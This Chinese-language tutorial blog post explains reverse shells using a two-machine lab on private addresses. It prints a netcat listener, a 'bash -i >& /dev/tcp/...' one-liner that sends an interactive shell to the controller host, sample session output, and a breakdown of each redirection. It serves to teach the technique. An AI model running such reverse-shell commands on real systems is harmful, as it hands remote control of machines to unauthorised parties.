

如果我们需要到服务器上执行 Shell 命令，但是因为防火墙等原因，无法由客户端主动发起连接的情况，就可以使用反弹 Shell 来满足登陆和操作的需求。

## 什么是反弹Shell

正常情况下，我们登陆服务器获取 Shell 会话是下面的步骤，用户在终端软件（Terminal）中输入 `ssh root@ip` 登陆目标机器，登陆成功后即可以开始Shell操作。


反弹Shell（Reverse Shell），顾名思义是指与正常的 sshd 服务相反，由控制端监听，被控制端发起请求到监听端口，并将其命令行的输入输出转到控制端。




## 实战介绍

准备两台网络连通的服务器：

* 控制端：172.16.51.130
* 被控端：172.16.51.128

控制端监听一个端口

```sh
$ nc -lvp 8888
listening on [any] 8888 ...

```

被控端生成一个反弹 Shell

```sh
$ bash -i >& /dev/tcp/172.16.51.130/8888 0>&1 2>&1
```

这时注意观察控制端，会出现被控端的 shell 提示符

```sh
172.16.51.128: inverse host lookup failed: Host name lookup failure
connect to [172.16.51.130] from (UNKNOWN) [172.16.51.128] 47584
tiago@lampiao:~$ whoami
whoami
tiago
tiago@lampiao:~$ hostname
hostname
lampiao
tiago@lampiao:~$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:cc:9b:c6 brd ff:ff:ff:ff:ff:ff
    inet 172.16.51.128/24 brd 172.16.51.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fecc:9bc6/64 scope link 
       valid_lft forever preferred_lft forever
```

在提示符下输入命令，可以看到确实是在被管机上执行的命令及返回的结果，就像我们登陆到了被管机一样。

具体解释如下：

```sh
$ nc -lvp 8888
```

使用 nc 命令在控制端监听端口，`-l` 表示监听 `-p` 表示端口。

```sh
$ bash -i >& /dev/tcp/172.16.51.130/8888 0>&1 2>&1
# bash -i 表示进入一个交互式的Shell环境
# >& 表示将交互式Shell发送给后续的文件，并且将&联合符号后面的内容也发送到重定向
# /dev/tcp/172.16.51.130/8888 实际是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
# 0>&1 表示将标准的输入与标准输出相结合，都发给重定向文件
# 2>&1 表示将标准输出和标准错误输出都发送到socket文件中，即我们能够在控制端看到命令的返回，在被控端看不到相关信息。
```

上面的命令联合起来意思就是，我们在被管机上产生了一个 bash 环境，将它发送给了远程的控制主机，同时将被管机的标准输入、标准输出、标准错误输出都发送给了控制主机，这样实现了获取被管主机 shell 执行环境的目的。

本文介绍的是最简单的一种反弹shell实现方式，反弹shell还有很多种的实现方式，实现的思路应该都差不多，等稍后整理出来与大家分享。 